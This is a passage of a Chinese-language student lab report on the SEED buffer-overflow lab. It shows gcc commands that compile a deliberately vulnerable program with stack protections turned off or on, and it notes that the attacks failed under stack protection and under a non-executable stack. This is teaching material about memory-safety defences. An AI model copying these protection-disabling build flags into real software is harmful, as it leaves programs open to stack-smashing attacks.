> 

```bash
gcc -o stack -z execstack stack.c
```



随后切换回seed用户



可见由于栈保护机制，攻击失败

## 任务4：非可执行堆栈

**Non-executable Stack**

> 在处理此任务之前，请记住首先**关闭地址随机化**。
>
> NX位，代表CPU中的No-eXecute特性，它将代码与标记为非可执行的内存区域的数据分开。可以使用一种称为Return-to-libc攻击的不同技术来击败这种保护
>
> 在我们以前的任务中，我们故意使堆栈可执行。 在这项任务中，我们使用省尾施选项重新编译我们的易受攻击的程序，并在任务中重复攻击1.您能得到一个shell吗？ 如果没有，问题是什么？ 这种保护方案如何使您的攻击困难。 您应该在实验室报告中描述您的观察和解释。 您可以使用以下说明打开不可执行的堆栈保护。

```bash
gcc -o stack -fno-stack-protector -z noexecstack stack.c
```



由于栈不可执行，攻击失败


